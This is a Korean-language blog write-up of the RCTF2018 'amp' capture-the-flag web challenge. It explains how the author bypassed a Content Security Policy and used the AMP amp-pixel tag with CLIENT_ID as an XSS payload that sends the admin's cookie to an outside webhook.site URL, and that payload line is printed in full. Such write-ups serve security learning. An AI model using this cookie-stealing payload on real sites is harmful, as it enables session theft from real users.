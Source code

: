 ```yaml
---
title: "[RCTF2018] amp Write up"
date: 2018-05-23
draft: false
category: [ctf]
subcategories: [2018]
tags: [Write-up, CTF, RCTF2018]
---
```


2018년 5월 19일부터 5월 21일까지 RCTF가 있었다.
비록 대회 도중에는 문제를 못풀었지만, 대회 종료 후 amp 문제를 풀게되어 Write-up을 작성하게 되었다.  

<!--more-->

문제 링크에 접속하면 아래와 같은 페이지를 확인할 수 있다.  

![](/images/CTF/RCTF2018/amp/amp_01.PNG)  

쿠키를 확인 해 보니, `FLAG` 라는 이름으로 `flag_is_in_admin_cookie` 값이 있었다.  

![](/images/CTF/RCTF2018/amp/amp_02.PNG)  

입력 값을 줄 수 있는 곳이 없어 헤메던 중, 메인 페이지에 `HEY INPUT YOUR NAME AFTER QUERYSTRING`이 적혀있는 것을 발견했다.
`QUERYSTRING`은 `GET` 방식으로 인자를 넘길 때 `index.php?id=aaa`와 같은 형태를 의미한다.
`NAME`을 입력하라고 했으므로, 문제의 url 뒤에 `name=ccoma`를 입력 해 보았다.  

![](/images/CTF/RCTF2018/amp/amp_03.PNG)  

그랬더니 그림과 같이, name 값이 그대로 출력되는 것을 확인할 수 있었다.
`내가 입력한 값이 그대로 출력` 된다는 점에서 `XSS` 공격을 생각했지만, 분명히 script는 들어가는데 동작하지는 않았다.  

![](/images/CTF/RCTF2018/amp/amp_04.PNG)  

`curl -v` 명령어를 통해 확인 해 보니, `CSP(Content Security Policy)`가 걸려 있었다.  

![](/images/CTF/RCTF2018/amp/amp_05.PNG)  

실제 CTF 대회 기간에는 이정도밖에 알아내지 못해서 문제를 풀지 못했었다.(흑 ㅠㅠ)
그래서 대회 종료 후, Write-up이 올라오기만을 기다리다가 ctftime.org에 풀이가 올라온 후 문제를 다시 풀어보았다.

내가 간과한 점은, 바로 주석이었다.
페이지 소스를 보면 HTML 주석으로 다음과 같은 글이 있다.  

```html
<!-- OK, I don't care AMP Standard -->
<!-- It just wastes my time. -->
```

대회 기간에는 주의깊게 살펴보지 않아 무슨 내용인지 몰랐지만, Write-up을 보고 다시 살펴보니 `AMP 표준에 대해서는 신경쓰지 않는다`는 내용이었다.
`AMP 표준`은 아래 링크에서 확인할 수 있다.  

> [AMP 표준 확인](https://www.ampproject.org/docs/reference/components)

`AMP(Accelerated Mobile Pages)`란, Google에서 시작한 프로젝트로 모바일 전용 빠른 웹 페이지를 의미한다.
모바일 시장에서 페이지 로딩 속도는 이탈률을 막는 매우 중요한 요소라고 한다.
그런데 우리가 일반적으로 사용하는 웹 페이지는 모바일에서 성능 저하가 나타나기 때문에 Google에서는 AMP를 만들어 이를 보완하고자 했다.
하지만 Google은 모바일에서 웹 페이지의 성능을 보장하기 위해 몇 가지 제약 사항을 주었다.  

* CSS는 모두 inline으로 해야하며 50KB를 넘을 수 없다.
* script는 `<script async src="https://cdn.ampproject.org/v0.js"></script>` 처럼 AMP에서 제공하는 것 말고 외부 스크립트는 허용하지 않는다.
* `<amp-img>`, `<amp-video>` 처럼 AMP 전용 태그를 사용해야 한다.

이 외에도 다양한 제약사항이 있지만, 이번에 출제 된 문제를 풀기 위해서는 이정도만 알고 있어도 충분할 것 같다.
`AMP` 라는 힌트를 얻었으므로, AMP 표준을 둘러보았다.
내가 문제를 풀기 위해 필요한 것은 `admin의 flag` 이기 때문에, 무언가 쿠키 값을 가져올 수 있는 태그가 필요했다.

태그를 찾던 중, `<amp-pixel>` 태그를 보게 되었다.
`<amp-pixel>` 태그는 페이지 뷰를 카운트 할 때 유용한 태그라고 한다.
`<amp-pixel>` 태그에는 기본적으로 url을 속성으로 주어야 하는데, 만약 해당 코드가 있는 페이지를 누군가 접근한다면, 태그 안에 적혀있는 url로 `GET request`를 전송 해 준다.
그런데 이 태그의 속성으로 `CLIENT_ID`라는 것을 사용할 수 있다.  

![](/images/CTF/RCTF2018/amp/amp_06.PNG)  

`CLIENT_ID`는 사용자를 식별하기 위한 속성으로, `AMP 문서가 Google AMP 캐시를 통해 제공되지 않을 경우에는 쿠키로 대체`된다.
즉, 쿠키 값에 접근할 수 있다.  

따라서 문제를 풀기 위해 `<amp-pixel>` 태그를 사용하고, url에는 내가 `GET request`를 받아서 확인할 수 있는 주소로 주고, `CLIENT_ID`를 사용 해 쿠키 값을 함께 전송하도록 하면 된다.
그런데 내가 필요한 것은 나의 쿠키가 아니라 `admin의 쿠키값`이다.

이를 위해 있는 기능이 `name`을 전송한 뒤에 볼 수 있는 `STOP TRACKING ME` 버튼이다.
이 버튼을 누를 경우, `We logged your request and contacted admin`이라고 출력된다.
즉, `admin`이 내가 `name`의 인자로 준 `XSS` 코드를 실행시킬 수 있다.
이제 필요한 것은, 내가 `GET request`를 확인할 수 있는 링크이다.
`<amp-pixel>`은 `https`만을 지원하는데, 내 서버에는 `https` 서버가 구축되어 있지 않다.  

python으로 https 서버를 구축 해 봤지만, 제대로된 인증서를 사용하지 않아서인지 응답을 정확히 받아오지 못했다.
그래서 [https://webhook.site](https://webhook.site/#/) 를 사용했다.
해당 사이트에서 URL을 받은 후, 문제에서 `name` 옆에 아래와 같이 입력 해 주었다.  

```plain
<amp-pixel src="https://webhook.site/ee162cc6-d050-482e-89b5-9efd05074455?url=CLIENT_ID(FLAG)"></amp-pixel>
```

![](/images/CTF/RCTF2018/amp/amp_07.PNG)  

그 결과 위와 같이 코드가 삽입된 것을 확인할 수 있었다.
`https://webhook.site`로 돌아가 확인 해 보니 아래와 같이 내가 보낸 요청이 온 것을 확인할 수 있었다.  

![](/images/CTF/RCTF2018/amp/amp_08.PNG)  

이에, `STOP TRACKING ME` 버튼을 누른 후, 요청을 다시 확인 해 보았다.  

![](/images/CTF/RCTF2018/amp/amp_09.PNG)  

드디어 플래그를 얻을 수 있었다!  

```plain
FLAG : RCTF{El_PsY_CONGRO0_sg0}
```

Plaid CTF, DEFCON에 이어 RCTF까지 문제 내에 힌트가 있음에도 이를 주의깊게 확인하지 않았던 문제들이 많아 너무 아쉬웠다.
이번 대회에서는 대회 기간동안에 문제를 풀지 못했지만, 다음 대회에서는 좀 더 주의깊게 확인 해 꼭 대회 기간 내에 문제를 풀어보고 싶다.  
